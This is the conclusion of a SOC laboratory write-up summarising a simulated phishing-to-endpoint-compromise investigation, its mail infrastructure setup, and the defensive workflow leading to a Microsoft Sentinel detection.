Investigation 002 demonstrated a complete phishing-to-endpoint-compromise scenario within the SOC laboratory.

The investigation workflow was:

```text
Phishing Email
      ↓
Endpoint Execution
      ↓
Process Investigation
      ↓
Artifact Identification
      ↓
File & Stream Analysis
      ↓
Payload Recovery
      ↓
Discovery Analysis
      ↓
Network Activity Analysis
      ↓
Persistence Analysis
      ↓
Endpoint Validation
      ↓
Containment
      ↓
Detection Engineering
      ↓
MITRE ATT&CK Mapping
```

The investigation also demonstrated the importance of building realistic supporting infrastructure rather than treating the attack as an isolated command execution.

The internal mail environment required practical work with Postfix, Dovecot, dnsmasq, DNS, SMTP, IMAP, TLS, SPF, DKIM and DMARC, while Thunderbird was used to reproduce the normal employee-facing email workflow. Troubleshooting these components during construction provided additional practical understanding of how email infrastructure and endpoint activity interact during a phishing incident.

Most importantly, the investigation demonstrated an evidence-driven SOC workflow: the initial user report was converted into a timeline, the suspicious artifact was identified and pivoted on, endpoint telemetry was correlated, the recovered payload was validated against endpoint artifacts, attempted activity was distinguished from confirmed activity, containment was performed, and the resulting attack methodology was converted into a reusable Microsoft Sentinel detection.

The final detection therefore moves beyond the specific indicators used in this laboratory scenario and provides a foundation for identifying similar phishing-driven endpoint compromise activity in future investigations.
